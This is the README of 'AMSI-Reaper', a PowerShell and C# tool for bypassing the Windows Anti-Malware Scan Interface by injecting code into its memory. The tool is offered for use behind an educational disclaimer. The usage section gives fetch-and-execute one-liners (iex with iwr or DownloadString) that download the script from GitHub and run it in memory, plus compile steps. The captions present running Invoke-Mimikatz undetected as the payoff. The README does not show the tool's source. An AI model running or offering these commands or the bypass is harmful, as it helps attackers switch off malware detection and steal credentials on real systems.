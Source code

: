 # AMSI-Reaper
![reaper](https://github.com/h0ru/AMSI-Reaper/assets/117091833/24861e69-df06-477d-8844-a0d4015ef830)

## Disclaimer ⚠️
- *__The AMSI-Reaper tool is designed mainly for educational and research purposes. The author is not responsible for any misuse, damage, or legal consequences caused by the use of this tool.__*

## Overview📎 
- The AMSI is a built-in security feature in Windows that enables applications and services to integrate with antimalware products. It automatically protects against harmful scripts and code in programs like PowerShell.
- AMSI-Reaper is a tool developed in PowerShell and C# (.NET Framework v4.0) designed to bypass the Anti-Malware Scan Interface [`(AMSI)`](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal) in Windows.
- Bypass AMSI: AMSI-Reaper injects code into the memory of the AMSI components, preventing them from interfering with your scripts.
- PowerShell and C# Support: The tool is available in both [`PowerShell`](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.ps1) and [`C#`](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.cs) versions, making it adaptable to different use cases.
- Check out more on the [`YouTube Video`](https://youtu.be/rNGQpjJ2rXg?feature=shared)

## Usage 🛠️
- *__AMSI-Reaper requires Administrator privileges to function correctly. Please run the tool as an Administrator.__*
### 1️⃣ PowerShell Version
- __Download__
```powershell
iex (iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1)
```
```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1')
```
### 2️⃣ C# Version
- __Download__
```powershell
wget https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
```powershell
iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
- __Compile__
```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe AMSI-Reaper.cs
```
## Images 🪛
### ✔ Invoke-Mimikatz is detected and blocked by AMSI.
![image1](https://github.com/h0ru/AMSI-Reaper/assets/117091833/6dba8127-9fec-41ec-ba8d-f70d01678dea)
### ✔ With AMSI-Reaper in PowerShell, we can request and use it from the command line in real-time, all in memory.
![image2](https://github.com/h0ru/AMSI-Reaper/assets/117091833/dbcf74d0-a3c3-4e64-a024-3b2bea604f37)
### ✔ Alternatively, you can also use AMSI-Reaper in C# with native Windows features by compiling it with CSC.
![image3](https://github.com/h0ru/AMSI-Reaper/assets/117091833/8906a6ab-d2d8-4ace-906c-2e0869040aa7)

